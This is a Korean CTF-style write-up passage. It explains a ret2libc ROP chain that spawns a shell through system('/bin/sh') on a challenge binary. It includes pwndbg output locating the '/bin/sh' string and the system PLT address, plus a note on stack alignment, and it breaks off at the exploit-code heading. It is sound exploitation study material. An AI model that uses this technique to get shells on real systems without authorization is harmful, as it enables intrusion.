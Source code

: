 
### 익스플로잇

- 다음과 같이 가젯을 구성하고, 실행하면 system(”/bin/sh”)를 실행할 수 있음
  
    ```python
    addr of ("pop rdi; ret")   <= return address
    addr of string "/bin/sh"   <= ret + 0x8
    addr of "system" plt       <= ret + 0x10
    ```
    
- “/bin/sh”의 주소는 pwndbg로 찾을 수 있음
  
    ```python
    pwndbg> search /bin/sh
    rtl             0x400874 0x68732f6e69622f /* '/bin/sh' */
    rtl             0x600874 0x68732f6e69622f /* '/bin/sh' */
    libc-2.27.so    0x7ff36c1aa0fa 0x68732f6e69622f /* '/bin/sh' */
    ```
    
- `system` 함수의 PLT 주소는 pwndbg 또는 pwntools 의 API로 찾을 수 있음
  
    ```python
    pwndbg> plt
    0x4005b0: puts@plt
    0x4005c0: __stack_chk_fail@plt
    0x4005d0: system@plt
    0x4005e0: printf@plt
    0x4005f0: read@plt
    0x400600: setvbuf@plt
    ```
    
    ```python
    pwndbg> info func @plt
    All functions matching regular expression "@plt":
    
    Non-debugging symbols:
    0x00000000004005b0  puts@plt
    0x00000000004005c0  __stack_chk_fail@plt
    0x00000000004005d0  system@plt
    0x00000000004005e0  printf@plt
    0x00000000004005f0  read@plt
    0x0000000000400600  setvbuf@plt
    ```
    
- 가젯으로 구성된 페이로드를 작성하고, 이 페이로드로 반환 주소를 덮으면 셸을 획득할 수 있음
- 여기서 한 가지 주의할 점
    - `system` 함수로 `rip` 가 이동할 때, 스택은 반드시 0x10단위로 정렬되어 있어야 한다는 것
    - 이는 `system` 함수 내부에 있는 `movaps` 명령어 때문
    - 이 명령어는 스택이 0x10단위로 정렬되어 있지 않으면 Segmentation Fault를 발생시킴
    - `system` 함수를 이용한 익스플로잇을 작성할 때, 익스플로잇이 제대로 작성된 것 같은데도 Segmentation Fault가 발생한다면, `system` 함수의 가젯을 8 바이트 뒤로 미뤄보는 것이 좋습니다.
    - 이를 위해서 아무 의미 없는 가젯**(no-op gadget)**을 `system` 함수 전에 추가할 수 있습니다.
    - 이 가젯이 무엇인지는 퀴즈
- 익스플로잇 코드
  